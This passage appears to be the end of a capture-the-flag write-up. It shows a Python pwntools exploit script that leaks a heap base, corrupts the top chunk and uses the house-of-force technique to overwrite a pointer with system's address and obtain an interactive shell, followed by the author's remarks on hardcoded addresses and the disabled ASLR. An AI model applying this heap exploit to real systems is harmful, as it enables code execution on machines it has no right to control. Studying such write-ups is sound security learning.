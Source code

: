 ``` python

    # Leak the heap base
    heap_base = leak_heap_base()
    log.info('heap_base: 0x%x' % heap_base)

    # Put something in the items array so we can call clear
    give(1, 1)
    get()

    # This will call clear and put a fake chunk overlapping the top chunk
    free_addr(0x2d3c8) # We can hardcode this because ASLR is disabled and the remote server heap base matches our heap base (only when running in GDB). If ASLR was enabled we could just do some math to calculate where this would shift to
    p.recvuntil('cleared')

    # Overwrite the top chunk size
    give(0x100-6, '\xff'*8)
    p.recvuntil('stored')
    get()
    p.recvuntil('data:')

    # Now do house of force
    distance = 0x2c794 - 0x2d3cc # We can hardcode this for the same reason as above
    give(distance, '')
    p.recvuntil('stored')
    get()
    p.recvuntil('data:')

    give(1000, p32(system_addr))
    p.recvuntil('stored')
    get()
    p.recvuntil('data:')

    p.interactive()

if __name__ == '__main__':
    main()
```

One interesting I noted after solving this was that ASLR was disabled on the remote host, and it almost exactly matched what I had locally (heap addressed matched in GDB, but not outside of GDB, and libc addresses were off by a few bits). If I hadn't found the heap/libc leaks, it might have been possible to solve this problem with a bit of bruteforce instead. Also, instead of calculating the proper address to use in my code, I left in the hardcoded addresses (`0x2d3c8` and `0x2d3cc`). If ASLR was enabled, I would have simply added the right offsets the calculated `heap_base` instead.

